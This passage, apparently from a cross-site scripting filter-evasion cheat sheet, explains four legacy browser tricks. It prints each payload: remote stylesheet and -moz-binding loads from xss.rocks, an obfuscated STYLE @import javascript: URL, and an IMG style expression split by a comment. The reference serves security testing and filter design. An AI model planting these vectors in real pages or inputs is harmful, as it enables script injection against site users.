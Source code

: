 <p>This only works in Opera 8.0 (no longer in 9.x) but is fairly tricky. According to RFC2616 setting a link header is not part of the HTTP1.1 spec, however some browsers still allow it (like Firefox and Opera). The trick here is that I am setting a header (which is basically no different than in the HTTP header saying <code>Link: &lt;http://xss.rocks/xss.css&gt;; REL=stylesheet</code>) and the remote style sheet with my cross site scripting vector is running the JavaScript, which is not supported in FireFox:</p>
<pre><code>&lt;META HTTP-EQUIV="Link" Content="&lt;http://xss.rocks/xss.css&gt;; REL=stylesheet"&gt;
</code></pre>
<h2><a id="user-content-remote-style-sheet-part-4" class="anchor" aria-hidden="true" href="#remote-style-sheet-part-4"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>Remote style sheet part 4</h2>
<p>This only works in Gecko rendering engines and works by binding an XUL file to the parent page. I think the irony here is that Netscape assumes that Gecko is safer and therefor is vulnerable to this for the vast majority of sites:</p>
<pre><code>&lt;STYLE&gt;BODY{-moz-binding:url("http://xss.rocks/xssmoz.xml#xss")}&lt;/STYLE&gt;
</code></pre>
<h2><a id="user-content-style-tags-with-broken-up-javascript-for-xss" class="anchor" aria-hidden="true" href="#style-tags-with-broken-up-javascript-for-xss"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>STYLE tags with broken up JavaScript for XSS</h2>
<p>This XSS at times sends IE into an infinite loop of alerts:</p>
<pre><code>&lt;STYLE&gt;@im\port'\ja\vasc\ript:alert("XSS")';&lt;/STYLE&gt;
</code></pre>
<h2><a id="user-content-style-attribute-using-a-comment-to-break-up-expression" class="anchor" aria-hidden="true" href="#style-attribute-using-a-comment-to-break-up-expression"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>STYLE attribute using a comment to break up expression</h2>
<p>Created by Roman Ivanov</p>
<pre><code>&lt;IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))"&gt;
</code></pre>
